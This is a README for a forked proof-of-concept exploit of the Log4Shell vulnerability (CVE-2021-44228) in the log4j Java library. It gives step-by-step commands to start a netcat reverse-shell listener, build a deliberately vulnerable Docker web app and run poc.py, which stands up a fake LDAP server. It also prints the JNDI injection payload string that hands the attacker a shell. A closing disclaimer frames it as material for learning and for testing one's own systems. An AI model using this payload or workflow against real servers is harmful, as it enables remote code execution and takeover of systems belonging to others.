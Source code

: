 # log4j-shell-poc

This repo has been forked from https://github.com/kozmer/log4j-shell-poc

This is a Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

#### Usage:
* Clone this repo
```sh
git clone https://github.com/prasadashu/log4j-shell-poc.git
```

* Change directory to the cloned directory
```sh
cd log4j-shell-poc
```

* Install the requirements
```sh
pip install -r requirements.txt
```

* Install Java 8 JDK
```sh
apt install -y openjdk-8-jdk
```

* Copy the JDK to the current working directory
```sh
cp -r /usr/lib/jvm/java-8-openjdk-amd64 ./
```

* Start a netcat listener to accept reverse shell connection.<br>
```sh
nc -lvnp 9001
```

* Build the docker image
```sh
docker build -t log4j-vulnerable-application .
```

* Start the vulnerable application
```sh
docker run --network host log4j-vulnerable-application
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `java-8-openjdk-amd64`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Forked from Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

A Dockerfile has been added with the vulnerable webapp.

We can run the application using the following steps:

```sh
1: docker build -t log4j-vulnerable-application .
2: docker run --network host log4j-vulnerable-application
```
Once it is running, you can access it on localhost:8080

<br>

Getting the Java version.
--------------------------------------

We can install the required Java version using the below command.
```sh
apt install -y openjdk-8-jdk
```

Java versision installed will be
```sh
openjdk version "1.8.0_342"
OpenJDK Runtime Environment (build 1.8.0_342-8u342-b07-0ubuntu1~20.04-b07)
OpenJDK 64-Bit Server VM (build 25.342-b07, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.

